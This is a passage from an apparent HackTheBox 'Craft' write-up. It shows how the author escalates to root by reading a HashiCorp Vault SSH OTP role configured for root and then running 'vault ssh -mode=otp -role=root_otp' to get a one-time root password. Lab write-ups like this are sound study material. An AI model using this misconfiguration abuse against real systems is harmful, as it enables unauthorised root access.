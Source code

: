 Then I remembered the
[ssh](https://www.vaultproject.io/docs/commands/ssh.html) command, and
remembered the `sh` script from Gogs that runs `vault secrets enable ssh` and
`vault write ssh/roles/root_otp key_type=otp default_user=root
cidr_list=0.0.0.0/0`.

I can read that value out:

    
    
    gilfoyle@craft:~$ vault read ssh/roles/root_otp
    Key                  Value
    ---                  -----
    allowed_users        n/a
    cidr_list            0.0.0.0/0
    default_user         root
    exclude_cidr_list    n/a
    key_type             otp
    port                 22
    

But more importantly, I can use the ssh command to connect:

    
    
    gilfoyle@craft:~$ vault ssh -mode=otp -role=root_otp root@127.0.0.1
    Vault could not locate "sshpass". The OTP code for the session is displayed
    below. Enter this code in the SSH password prompt. If you install sshpass,
    Vault can automatically perform this step for you.
    OTP for the session is: 6c5f8635-d25a-958e-078b-e929255b949d
    
    
      .   *   ..  . *  *
    *  * @()Ooc()*   o  .
        (Q@*0CG*O()  ___
       |\_________/|/ _ \
       |  |  |  |  | / | |
       |  |  |  |  | | | |
       |  |  |  |  | | | |
       |  |  |  |  | | | |
       |  |  |  |  | | | |
       |  |  |  |  | \_| |
       |  |  |  |  |\___/
       |\_|__|__|_/|
        \_________/
    
    
    
    Password: 
    Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64
    